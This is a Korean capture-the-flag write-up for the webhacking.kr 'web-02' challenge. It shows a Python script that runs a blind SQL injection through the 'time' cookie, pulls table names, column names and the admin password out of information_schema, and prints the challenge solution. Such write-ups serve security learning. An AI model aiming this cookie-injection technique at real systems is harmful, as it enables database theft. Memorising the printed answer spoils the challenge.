 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-16-35-41.png)


# **Write-Up**

소스를 확인하면 시간 정보와 admin.php라는 단서를 얻을 수 있다.

```html
<!--
2021-10-12 07:59:33
-->
<h2>Restricted area</h2>Hello stranger. Your IP is logging...<!-- if you access admin.php i will kick your ass -->
```

admin.php로 가보면 password를 입력하라고 나온다.

![](images/2022-01-03-16-36-07.png)

Cookie를 확인하면 time값이 들어가 있다.

![](images/2022-01-03-16-36-12.png)

time값을 조작하여 새로고침하면 SQLi가 통한다.

![](images/2022-01-03-16-36-17.png)

테이블 명을 알아내자.

```python
import urllib.request
import datetime

url     = 'https://webhacking.kr/challenge/web-02/'

for i in range(60, 100):
    table   = ''
    for j in range(1, 50):
        query   = '(select ord(substr((select table_name from information_schema.tables limit {0},1),{1},1)))'.format(i, j)
        request = urllib.request.Request(url)
        request.add_header('Cookie','time='+query)
        try:
            response        = urllib.request.urlopen(request)
            original_text   = response.read().decode().split('\n')[1]
            if '2070-01-01 09:00:00' in original_text:
                if table != '' : print('[{}] {}'.format(i, table))
                break
            date_time       = datetime.datetime.strptime(original_text, "%Y-%m-%d %H:%M:%S")
            a_timedelta     = date_time - datetime.datetime(2070, 1, 1, 9, 0, 0) # subtract
            seconds         = int(a_timedelta.total_seconds()) # to seconds
            table += chr(seconds) # to ascii
        except urllib.error.HTTPError as e:
            print(e.code)
            print(e.read())
        except urllib.error.URLError as e:
            print(e.reason)

[Output]
[60] INNODB_SYS_TABLESTATS
[61] admin_area_pw
[62] log
```

컬럼 명을 알아내자.

```python
... 생략 ...
for i in range(600, 700):
... 생략 ...
        query   = '(select ord(substr((select column_name from information_schema.columns limit {0},1),{1},1)))'.format(i, j)
... 생략 ...

[Output]
[600] NUM_ROWS
[601] CLUST_INDEX_SIZE
[602] OTHER_INDEX_SIZE
[603] MODIFIED_COUNTER
[604] AUTOINC
[605] REF_COUNT
[606] pw
[607] ip
[608] time
```

데이터를 알아내자.

```python
... 생략 ...
for i in range(0, 10):
... 생략 ...
        query   = '(select ord(substr((select pw from admin_area_pw limit {0},1),{1},1)))'.format(i, j)
... 생략 ...

[Output]
[0] kudos_to_beistlab
```

admin.php에 데이터를 입력하여 점수를 획득하자.

![](images/2022-01-03-16-36-54.png)